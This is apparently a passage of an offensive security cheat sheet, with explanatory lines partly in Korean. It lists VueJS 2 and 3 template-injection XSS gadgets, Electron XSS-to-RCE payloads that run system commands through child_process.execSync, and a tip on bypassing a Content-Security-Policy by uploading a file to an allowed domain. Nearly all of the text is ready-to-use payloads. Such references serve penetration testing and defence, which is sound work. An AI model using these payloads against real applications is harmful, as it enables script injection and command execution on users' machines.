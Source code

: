 ### VueJS XSS gadgets

```html
VueJS version 2

<p v-show="_c.constructor`alert(1)`()">
<x v-on:click='_b.constructor`alert(1)`()'>click</x>
<x v-bind:a='_b.constructor`alert(1)`()'>
<x @[_b.constructor`alert(1)`()]>
<x :[_b.constructor`alert(1)`()]>
<p v-=_c.constructor`alert(1)`()>
<x #[_c.constructor`alert(1)`()]>
<p :=_c.constructor`alert(1)`()>
{{_c.constructor('alert(1)')()}}
{{_b.constructor`alert(1)`()}}
{{_c.constructor`alert(document.currentScript.nonce)`()}} 
```
```html
VueJS version 3

{{_openBlock.constructor('alert(1)')()}}
{{_createBlock.constructor('alert(1)')()}}
{{_toDisplayString.constructor('alert(1)')()}}
{{_createVNode.constructor('alert(1)')()}}
<p v-show="_createBlock.constructor`alert(1)`()">
<x @[_openBlock.constructor`alert(1)`()]>
<x @[_capitalize.constructor`alert(1)`()]>
<x @click=_withCtx.constructor`alert(1)`()>click</x>
<x @click=$event.view.alert(1)>click</x>
{{_Vue.h.constructor`alert(document.currentScript.nonce)`()}}
```

---
## XSS to RCE Electron Desktop Apps
```
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());"> 

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());"> 
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());"> 
```

---
## CSP Bypass

### Use an accepted domain
```
Content-Security-Policy: script-src 'self' http://141.164.52.207
```
위와 같이 script-src로 특정 도메인이 걸려 있을 경우, 특정 도메인에서 파일 업로드를 할 수 있다면 poc.html 파일을 올리고 불러와서 CSP를 우회할 수 있음.
